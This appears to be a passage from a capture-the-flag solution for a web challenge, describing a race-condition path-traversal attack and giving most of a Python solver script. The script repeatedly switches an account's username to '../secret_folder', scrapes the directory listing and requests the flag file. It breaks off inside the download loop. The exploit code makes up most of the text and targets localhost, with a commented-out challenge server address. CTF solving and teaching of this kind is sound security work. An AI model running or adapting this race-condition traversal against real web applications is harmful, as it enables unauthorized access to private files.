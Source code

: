 - [a] repeatedly sends requests to change the username from `../secret_folder` -> `yourname` -> `../secret_folder` -> `yourname` -> ... in /settings
- [b] repeatedly sends requests to read `../secret_folder` directory listing in /drive.php
- [c] repeatedly sends requests to download the flag file in download.php

solver.py

```python
import io
import random
import re
import string
import requests
import concurrent.futures
import time

requests.packages.urllib3.disable_warnings()

BASE_URL = "http://localhost:1337"
# BASE_URL = "http://4.194.8.38:1337"
LOOP = 30
DELAY_SEC = 3
USERNAME = "test" + "".join(random.choices(string.ascii_letters, k=10))
# USERNAME = "test111"
PASSWORD = "".join(random.choices(string.ascii_letters, k=10))

print(f"{USERNAME=}, {PASSWORD=}")


def settings(s, username):
    return s.post(
        f"{BASE_URL}/settings",
        data={
            "username": username,
            "current_password": PASSWORD,
            "new_password": PASSWORD,
        },
    )


# [a]
def loop_settings(s):
    for _ in range(LOOP):
        settings(s, USERNAME)
        settings(s, "../secret_folder/")


# [b]
def loop_dir_listing(s):
    for i in range(LOOP):
        res = s.get(f"{BASE_URL}/drive")

        if "flag" not in res.text or not (
            m := re.findall(r"download.php\?file=(.*?)&", res.text)
        ):
            continue

        return m[0]


# [c]
def loop_download(s, filename, hash):
    for _ in range(LOOP):
        res = s.get(f"{BASE_URL}/download", params={"file": filename, "hash": hash})

```